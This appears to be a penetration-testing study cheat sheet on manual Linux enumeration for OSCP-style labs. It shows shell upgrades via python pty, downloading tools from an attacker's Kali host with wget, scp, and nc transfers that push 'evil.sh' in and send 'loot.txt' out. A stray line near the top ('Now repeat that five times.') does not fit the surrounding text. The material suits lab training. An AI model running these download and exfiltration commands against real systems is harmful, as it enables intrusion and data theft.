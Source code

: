 # Linux Enumeration

I will do **Manual Enumeration** before running LinPEAS or lse or pspy. 

Now repeat that five times.

Many OSCP boxes are designed in a way where linPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a linux host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc (which should be native on a linux host) or a msfvenom payload. Also do the following to upgrade a shell to tty using python (or python3)

```bash
# on the target host
which python python2 python3 # check which python exist. Then use the relevant version below

python -c "import pty;pty.spawn('/bin/bash');"

python3 -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/sh");

```

## How to transfer files from Kali to Linux

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using /tmp, /dev/shm, /var/tmp (default global writable directories) or if you land a shell as a user, you can use that user's home directory.

```bash
wget http://<kali ip>/<file>
```

On the off chance that you somehow cant use wget, check if your current user has its path variables set correctly

```bash
# on the target

echo $PATH 

# In general, should look something like this: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
# if somehow this is empty then just set the Path variable

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

echo $PATH # to verify

```

Ok I really dont have wget! So what now? If you ssh-ed into the host, you can use scp (Secure Copy Paste)

```bash
# on your kali

scp [OPTIONS] [[user@]src_host:]file1 [[user@]dest_host:]file2

OPTIONS
-r recursive copy
-q quiet mode

For files we can use wildcard such as *.php

# if need diff port and id_Rsa keys, put them in front for it to work

# the below examples uses id_rsa to login and transfers linpeas.sh from kali to the /home/anita path

scp -P 2222 -i id_rsa linpeas.sh anita@192.168.208.245:/home/anita

```

If not SSH, you can always see the ancient method of using nc to file transfer.

Transferring evil.sh from kali to target
```bash
# on kali
nc -lvnp 80 < evil.sh
# on target
nc <kali ip> 80 > evil.sh
```
Transferring loot.txt from target to kali
```bash
# on kali
nc -lvnp 80 > loot.txt
# on target
nc <kali ip> 80 < loot.txt
```

-------------------
